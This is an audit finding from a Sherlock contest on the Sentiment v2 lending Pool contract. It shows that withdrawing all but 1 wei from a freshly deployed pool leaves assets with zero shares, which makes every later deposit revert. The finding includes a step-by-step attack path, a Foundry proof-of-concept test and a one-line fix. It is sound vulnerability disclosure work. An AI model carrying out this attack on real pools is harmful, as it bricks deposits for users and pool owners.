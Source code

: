 Lucky Cornflower Porcupine

Medium

# Deposits can be broken on first deposit

### Summary

When a Pool is empty a user can break deposits for it by leaving 1 asset for 0 share thanks to rounding making future deposit revert and force new pool deployment.

### Root Cause

In the `Pool` contract the function [`withdraw()`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/src/Pool.sol#L339-L339) round up the shares to be burnt when a user withdraw his deposit.

If a pool was just deployed and is empty, a user could deposit and borrow his own deposit. After 1 second the interest from the borrowing will increase the value per share of deposits above 1-1. Now the user can repay himself and withdraw all his deposit minus 1 wei.
This will result in burning all the shares but leaving 1 asset on the pool.

Now when users tries to deposit, the function [`deposit()`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/src/Pool.sol#L309-L309) will call the internal function [`_convertToShares()`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/src/Pool.sol#L275-L275) which will always return 0 shares as the function multiply by `totalShares` which is 0. Then the deposit will revert as it's not possible to do 0 shares deposits.

While this doesn't directly lead to loss of funds, it was submitted as it seems to be breaking a core functionality of the contract and Owner is not able to deploy the same Pool again as it's limited to 1 per asset per Owner.

### Internal pre-conditions

- Empty pool that was deployed recently

### External pre-conditions

_No response_

### Attack Path

1. Find an empty pool
2. Deposit on it and borrow
3. Wait 1 second for interests to increase
4. Repay and withdraw all funds minus 1 wei
5. Deposits will always revert now

### Impact

- The deposits will not work anymore making the Pool useless.
- The Owner of the pool will not be able to deploy the same pool again as it's limited to 1 Pool with the same asset per Owner, forcing him to use a new Owner address.
- If the Pool is used on the SuperPool, deposits will not work and it will have to be removed by the Owner.

### PoC

Add to `Pool.t.sol`

```solidity
function testBreakDeposits() public {
        uint256 assets = 50 ether;
        testCanDepositAssets(uint96(assets));

        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.borrow(linearRatePool, user, 1 ether);

        (,,,,,,, uint256 totalBorrowAssets, uint256 totalBorrowShares, uint256 totalDepositAssets, uint256 totalDepositShares) = pool.poolDataFor(linearRatePool);
        emit log_uint(totalBorrowShares);
        emit log_uint(totalBorrowAssets);
        emit log_uint(totalDepositAssets);
        emit log_uint(totalDepositShares);

        skip(1);
        pool.accrue(linearRatePool);

        (,,,,,,, totalBorrowAssets, totalBorrowShares, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
        emit log_uint(totalBorrowShares);
        emit log_uint(totalBorrowAssets);
        emit log_uint(totalDepositAssets);
        emit log_uint(totalDepositShares);

        asset1.mint(address(pool), totalBorrowAssets);
        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.repay(linearRatePool, user, totalBorrowAssets);

        vm.prank(user);
        pool.withdraw(linearRatePool, totalDepositAssets - 1, user, user);

        (,,,,,,, totalBorrowAssets, totalBorrowShares, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
        emit log_uint(totalDepositAssets);
        emit log_uint(totalDepositShares);

        vm.startPrank(user2);
        asset1.mint(user2, assets);
        asset1.approve(address(pool), 5 ether);
        vm.expectRevert();
        pool.deposit(linearRatePool, 5 ether, user2);
        vm.stopPrank();
    }
```

### Mitigation

Consider changing the condition in [`_convertToShares()`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/src/Pool.sol#L275-L275) from `if (totalAssets == 0) return assets;` to `if (totalAssets == 0 || totalShares == 0) return assets;`.